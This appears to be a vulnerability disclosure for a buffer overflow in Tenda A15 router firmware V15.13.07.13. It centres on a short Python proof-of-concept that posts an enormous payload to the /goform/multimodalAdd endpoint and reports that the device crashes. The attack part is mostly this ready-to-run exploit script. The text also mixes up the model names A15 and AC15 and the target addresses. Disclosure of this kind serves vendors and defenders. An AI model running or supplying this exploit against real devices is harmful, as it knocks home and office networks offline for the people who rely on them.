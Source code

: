 # Tenda A15 V15.13.07.13 has a buffer overflow vulnerability

# Vulnerable URL
http://192.168.159.128/goform/multimodalAdd

# Vulnerability Description

Tenda A15 is a dual-band three-gigabit wireless router suitable for fiber-optic homes within 1000 megabits, supporting gigabit ports, intelligent frequency selection, parental control and other functions. 
Shenzhen Jixiang Tenda Technology Co., Ltd. AC15 has a binary vulnerability that can be exploited by attackers to cause a denial of service.

# Firmware Information

https://www.tendacn.com/download/detail-3187.html
![image](https://github.com/user-attachments/assets/00a3dce8-4bd3-4c6c-93ec-4caeeaedab06)


# Payload：
exp.py
```
import requests

url = "http://192.168.85.160/goform/multimodalAdd"
data = {
    "HTTP/1.1 200 OK\r\nContent-Length:%d\r\nContent-type: text/plain; charset=utf-8\r\nPrag ma: no-cache\r\nCache-Control: no-cache\r\n\r\n":b'A'*1000000000
}
res = requests.post(url=url,data=data)
print(res.content)
```

<img width="547" alt="image" src="https://github.com/user-attachments/assets/fa358890-c6e3-4140-a91b-d03f5edad2d7" />


When running the exp.py script, the memory is filled up and the device crashes.

<img width="640" alt="image" src="https://github.com/user-attachments/assets/18814639-0abd-40b8-8b0d-dcda60649a23" />

![image](https://github.com/user-attachments/assets/87a3abce-af4f-40d4-a652-02fc29d8d7ab)

